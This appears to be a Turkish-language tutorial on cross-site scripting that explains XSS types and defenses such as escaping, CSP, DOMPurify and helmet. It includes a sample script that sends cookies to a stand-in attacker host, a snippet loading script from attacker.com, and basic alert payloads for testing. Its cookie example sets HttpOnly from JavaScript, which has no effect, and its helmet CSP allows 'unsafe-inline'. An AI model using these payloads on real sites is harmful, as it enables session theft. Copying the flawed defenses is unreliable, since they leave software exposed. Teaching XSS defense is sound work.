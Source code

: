 
# Web Uygulamalarında XSS Saldırıları ve Korunma Yöntemleri

Cross-Site Scripting (XSS) saldırıları, web güvenliğinin en yaygın ve tehlikeli tehditlerinden biridir. Bu yazıda XSS saldırılarının türlerini, nasıl çalıştığını ve etkili korunma yöntemlerini inceleyeceğiz.

## XSS Nedir?

XSS, saldırganların web uygulamalarına kötü amaçlı JavaScript kodu enjekte etmesine olanak tanıyan bir güvenlik açığıdır. Bu kodlar, kullanıcının tarayıcısında çalışarak hassas bilgilerin çalınmasına neden olabilir.

## XSS Türleri

### 1. Stored XSS (Kalıcı XSS)
Kötü amaçlı kod doğrudan sunucuda saklanır ve her kullanıcı o sayfayı ziyaret ettiğinde çalışır.

```javascript
// Örnek zarar verici kod
<script>
  // Kullanıcının cookie'lerini çal
  fetch('http://malicious-site.com/steal', {
    method: 'POST',
    body: document.cookie
  });
</script>
```

### 2. Reflected XSS (Yansıyan XSS)
Kötü amaçlı kod URL parametresi olarak gönderilir ve sunucu tarafından yansıtılır.

### 3. DOM-based XSS
Saldırı tamamen client-side'da gerçekleşir ve DOM manipülasyonu yoluyla çalışır.

## Korunma Yöntemleri

### 1. Input Validation (Giriş Doğrulama)
```javascript
function validateInput(input) {
  // HTML karakterlerini escape et
  return input
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#x27;");
}
```

### 2. Content Security Policy (CSP)
```html
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; script-src 'self'">
```

### 3. HttpOnly ve Secure Cookies
```javascript
// Güvenli cookie ayarlama
document.cookie = "sessionId=abc123; HttpOnly; Secure; SameSite=Strict";
```

## Gerçek Dünya Örnekleri

### Facebook'ta XSS Zafiyet Örneği (2011)
Facebook'ta keşfedilen bir XSS açığı, kullanıcıların profil sayfalarına zararlı kod yerleştirmelerine olanak tanıyordu:

```javascript
// Örnek saldırı vektörü
javascript:void($.getScript('http://attacker.com/malicious.js'))
```

### Twitter'da Self-XSS Saldırısı
Kullanıcıları, konsola kod yapıştırmaya ikna eden sosyal mühendislik saldırısı:

```javascript
// Kullanıcıları kandırmaya yönelik kod
console.log("Bu kodu çalıştırırsanız hesabınız hack'lenebilir!");
```

## İleri Seviye Korunma Teknikleri

### 1. DOM Purify Kullanımı
```javascript
import DOMPurify from 'dompurify';

// Güvenli HTML temizleme
const cleanHTML = DOMPurify.sanitize(dirtyHTML);
document.getElementById('content').innerHTML = cleanHTML;
```

### 2. React'ta Güvenli Rendering
```jsx
// Güvenli - React otomatik olarak escape eder
function SafeComponent({ userInput }) {
  return <div>{userInput}</div>;
}

// Tehlikeli - dangerouslySetInnerHTML kullanımı
function DangerousComponent({ htmlContent }) {
  return (
    <div 
      dangerouslySetInnerHTML={{
        __html: DOMPurify.sanitize(htmlContent)
      }} 
    />
  );
}
```

### 3. Express.js'te CSP Middleware
```javascript
const helmet = require('helmet');

app.use(helmet.contentSecurityPolicy({
  directives: {
    defaultSrc: ["'self'"],
    scriptSrc: ["'self'", "'unsafe-inline'"],
    styleSrc: ["'self'", "'unsafe-inline'"],
    imgSrc: ["'self'", "data:", "https:"],
  },
}));
```

## Penetration Testing için XSS Payloadları

> **Uyarı:** Bu payloadlar sadece eğitim amaçlıdır ve sadece sahip olduğunuz sistemlerde test edilmelidir.

```javascript
// Basit alert payload'u
<script>alert('XSS')</script>

// Image tag ile payload
<img src=x onerror=alert('XSS')>

// SVG ile payload
<svg onload=alert('XSS')>

// Form ile payload
<form><button formaction=javascript:alert('XSS')>Test</button></form>
```

## Sonuç

XSS saldırıları ciddi güvenlik tehditleri oluşturabilir. Düzenli güvenlik testleri, input validation, CSP gibi koruma mekanizmalarını implement ederek bu tehditlere karşı korunabiliriz.

### Önemli Hatırlatmalar:

1. **Hiçbir zaman kullanıcı girdisine güvenmeyin**
2. **Her zaman input validation yapın**
3. **Output encoding kullanın**
4. **Content Security Policy implementasyonu yapın**
5. **Düzenli güvenlik testleri gerçekleştirin**

**Unutmayın:** Güvenlik, bir hedef değil sürekli bir süreçtir. Her zaman güncel kalın ve yeni tehditlere karşı hazırlıklı olun.
